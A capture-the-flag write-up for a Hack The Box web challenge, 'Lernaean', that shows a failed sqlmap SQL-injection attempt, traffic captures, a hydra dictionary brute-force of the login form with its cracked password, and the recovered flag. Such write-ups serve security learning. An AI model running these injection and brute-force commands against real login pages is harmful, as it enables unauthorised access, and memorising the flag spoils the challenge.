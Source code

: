 # WEB CHALLENGE: LERNAEAN

## Challenge Description
Your target is not very good with computers. Try and guess their password to
see if they may be hiding anything!

```
host: 88.198.233.174 port:33971
```

<img src="lernaean/login.jpg" width=500px/>

### SQLMAP
Let's try SQLMAP to see if SQL injection might work (turns out it doesn't)..

```
$ sqlmap -u http://88.198.233.174:33971/ --data="password=' or '1=1" --tamper=space2comment
```

<img src="login-failed.jpg" width=500px/>


### BURPSUITE
Let's see if we can examine the HTTP traffic between us and the server by using
burpsuite as our browser proxy to understand what is being passed around..

```
<REQUEST>
POST / HTTP/1.1
Host: 88.198.233.174:33971
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://88.198.233.174:33971/
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

password=test
</REQUEST>

<RESPONSE>
HTTP/1.1 200 OK
Date: Thu, 30 Nov 2017 18:32:43 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 474
Connection: close
Content-Type: text/html; charset=UTF-8

Invalid password!
</RESPONSE>
```

Okay.. that tells us that `password` is the variable being passed to the server.

### WIRESHARK
Let's use wireshark just to confirm what is happening..

```
$ sudo wireshark -i eth0 -k
```

```
SOURCE: 10.0.2.15 DESTINATION: 88.198.233.174 PROTOCOL: HTTP INFO: POST / HTTP1.1 (application/x-www-form-urlencoded)

HTML Form URL Encoded: application/x-www-form-urlencoded
  Form item: "password" = "test"
    Key: password
    Value: test
```

### HYDRA
Okay.. now let's try using `hydra` to mimic these requests and brute force our
way through a dictionary attack..

```
$ hydra 88.198.233.174 -s 33971 http-form-post "/:user=^USER^&password=^PASS^:Invalid password!" -l user -P /usr/share/wordlists/rockyou.txt
```

```
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2017-11-30 17:13:03
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://88.198.233.174:33971//:user=^USER^&password=^PASS^:Invalid password!
[33971][http-post-form] host: 88.198.233.174   login: user   password: leonardo
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2017-11-30 17:13:41
```

Weeeeeeee! Looks like we found a valid password.

### LOOKING FOR THE FLAG
Trying the password we found on the form gives us a `Ooops! Too slow` response
on this page: `http://88.198.233.174:33971/noooooooope.html`..

<img src="login-success.jpg" width=500px/>

.. but if we use burpsuite to analyze the response from the server, we find
some hidden info..

```
<RESPONSE>
HTTP/1.1 200 OK
Date: Thu, 30 Nov 2017 22:17:03 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 618
Connection: close
Content-Type: text/html; charset=UTF-8

<h1 style='color: #fff;'>HTB{l1k3_4_b0s5_s0n}</h1><script type="text/javascript">
                   window.location = "noooooooope.html"
              </script>
</RESPONSE>
```
